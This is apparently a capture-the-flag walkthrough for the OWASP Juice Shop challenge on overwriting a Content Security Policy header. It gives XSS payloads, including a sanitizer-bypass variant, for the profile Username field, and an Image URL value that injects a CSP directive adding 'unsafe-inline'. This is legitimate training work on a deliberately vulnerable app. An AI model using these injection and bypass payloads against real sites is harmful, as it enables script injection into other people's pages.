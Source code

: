 # Overwrite Content Security Policy Header

1. Navigate to [https://localhost:88](http://localhost:88) or [https://demo.owasp-juice.shop](https://demo.owasp-juice.shop).

1. Log in with an account.

1. A forced directory search, nikto scan, or other scan finds the /profile subdirectory. Manually navigate to it.

1. Enter this following value in _Username_:
    ```
    <script>alert(`xss)</script>`
    ```
    This is sanitized, but the sanitizer is naive.

1. Enter the following in _Username_:
    ```
    <<a|ascript>alert(`xss)</script>`
    ```

1. Set the _Image URL_ field to https://placekitten/300/300.

1. Note that the Content-Security-Header on the response page contains an entry like:
    ```
    /assets/public/images/uploads/22.jpg; script-src 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
    ```
1. Submit http://not.an.image/image.png in the _Image URL_ and view the response:
    ```
    http://not.an.image/image.png; script-src 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
    ```
1. Now submit the following text for the _Image URL_:
    ```
    http://not.an.image/image.png script-src 'unsafe-inline' 'self' 'unsafe-eval' https://code.getmdl.io http://ajax.googleapis.com
    ```